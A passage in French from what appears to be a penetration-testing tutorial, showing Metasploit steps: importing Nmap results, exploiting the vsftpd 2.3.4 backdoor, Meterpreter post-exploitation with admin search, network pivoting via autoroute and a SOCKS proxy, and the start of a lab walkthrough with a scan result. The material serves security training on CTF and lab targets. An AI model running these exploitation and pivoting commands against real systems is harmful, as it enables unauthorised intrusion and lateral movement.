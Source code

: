 4. **Import dans Metasploit et exploitation**

```bash
# Dans Metasploit
msf6 > db_import nmap_detailed.xml
msf6 > hosts
msf6 > services
msf6 > vulns

# Sélection et exploitation des vulnérabilités identifiées
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 > set RHOSTS 10.10.10.10
msf6 > exploit
```

5. **Post-exploitation et pivotement**

```bash
# Collecte d'informations
meterpreter > sysinfo
meterpreter > getuid
meterpreter > run post/multi/gather/local_admin_search

# Pivotement
meterpreter > run autoroute -s 10.10.11.0/24
msf6 > use auxiliary/server/socks_proxy
msf6 > set SRVPORT 9050
msf6 > run
```

6. **Documentation des résultats**

```bash
# Génération de rapport HTML à partir du scan Nmap
xsltproc nmap_detailed.xml -o rapport_scan.html

# Capture d'écran des preuves de compromission
meterpreter > screenshot
```

### Exemple concret : Exploitation de VSFTPD 2.3.4

Voici un exemple pas à pas d'exploitation de la backdoor VSFTPD 2.3.4, une vulnérabilité classique souvent présente dans les CTF et labs.

1. **Découverte avec Nmap**

```bash
# Scan initial
sudo nmap -sS -sV 10.10.10.10 -p 21
```

Résultat :
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```
